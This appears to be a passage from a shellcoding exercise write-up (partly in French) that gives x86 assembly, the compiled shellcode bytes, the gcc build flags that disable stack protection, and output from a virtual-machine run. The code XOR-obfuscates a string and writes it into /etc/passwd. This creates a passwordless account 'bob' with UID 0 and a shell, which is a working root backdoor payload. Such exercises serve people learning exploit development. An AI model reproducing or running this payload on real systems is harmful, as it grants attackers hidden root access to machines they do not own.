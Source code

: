 ```c
	push ecx
	inc ch
	mov al, ch
	pop ecx			; open('/etc/passwd', O_WRONLY | O_NOCTTY)
	int 0x80

	xchg   ebx,eax		; Save the result

    ; the content of the string is xored with Oxed before we push it

	xor    eax,eax                  
	push   0x859ec283	; hs/n
	push   0x848fc2c2	; ib//
	push   0xd7c2d7d7	; :/::
 	push   0xddd7ddd7	; 0:0:
	push   0xd78f828f	; :bob
 	mov    esi,esp          ; esi contains the string
 	mov cl, 0x14            ; len of the string we want to put into /etc/passwd
	
    ; this loop xor the string to obtain the good one

_:
	xor byte [esi], 0xed    ; the first byte of our xored string
	inc esi
	loopne _
	mov ecx, esp            ; ecx is set to our new string

 	mov    dl,0x14
 	mov    al,0x4		; write ('/etc/passwd', 'bob:0:0::/://bin/sh')
 	int    0x80

 	xor    edx,edx
	mov eax, edx		
 	mov    al,0x6
 	int    0x80		; close the file descriptor
 	
	mov eax, edx		
 	mov    al,0x1
 	int    0x80		; exit

```

Testons le tout :

```c
./compile.sh 4
"\x31\xdb\xf7\xe3\x89\xd9\x53\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xb5\x04\xb1\x01\x51\xfe\xc5\x88\xe8\x59\xcd\x80\x93\x31\xc0\x68\x83\xc2\x9e\x85\x68\xc2\xc2\x8f\x84\x68\xd7\xd7\xc2\xd7\x68\xd7\xdd\xd7\xdd\x68\x8f\x82\x8f\xd7\x89\xe6\xb1\x14\x80\x36\xed\x46\xe0\xfa\x89\xe1\xb2\x14\xb0\x04\xcd\x80\x31\xd2\x89\xd0\xb0\x06\xcd\x80\x89\xd0\xb0\x01\xcd\x80";

we past this shellcode into test_shellcode.c and compile:

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode

sudo ./test_shellcode

xophidia@xophidia-VirtualBox:~/Documents/Shellcode/as6$ more /etc/passwd | tail -1
bob::0:0::/://bin/sh
````
